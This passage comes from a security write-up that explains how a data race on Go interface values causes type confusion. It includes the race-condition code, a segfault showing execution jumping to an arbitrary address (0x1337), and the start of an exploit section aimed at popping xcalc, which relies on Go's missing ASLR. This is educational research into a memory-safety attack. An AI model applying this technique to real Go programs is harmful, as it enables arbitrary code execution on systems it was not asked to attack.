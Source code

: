 Now that we have the interface `itf` we would like to declare 3 vars which will present an `itf`
```Golang
var good itf
var bad itf
var confused itf
```
Next, we will assign `good` as the `safe` interface and `bad` as `unsafe` interface and we will have `confused` which will point to `good` interface.
By doing so, we make sure that later on, it will get the context of good.
We proceeded to create a loop that accesses the function `X` implementation on confused and while doing so we repeatedly changed the `confused` interface from `good` to `bad`.
```Golang
func main() {
	pp := 0x1337
	good = &safe{f: &pp}
	bad = &unsafe{}
	confused = good

	go func() {
		var i int
		for {
			confused = bad
			confused = good
			i++

			if i > 100000 {
				break
			}
		}
	}()

	for {
		confused.X()
	}
}
```
By doing the above we create a race where we access the implementation of X with the context of `good` that means if we "win" then inside the `unsafe` implementation `f` from the `bad` context will be used as a function pointer instead of a pointer to an integer.
This will result in calling an arbitrary address (0x1337 in our case) which sounds quite promising.

```txt
unexpected fault address 0x1337
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x1 addr=0x1337 pc=0x1337]
...
```

## The exploit

So far we managed to execute arbitrary address which is good, but is it enough for us to execute `xcalc`?
Well, that's the time to mention that GO doesn't compile with ASLR by default and this is good news for us! (further reading [here](https://rain-1.github.io/golang-aslr.html)).
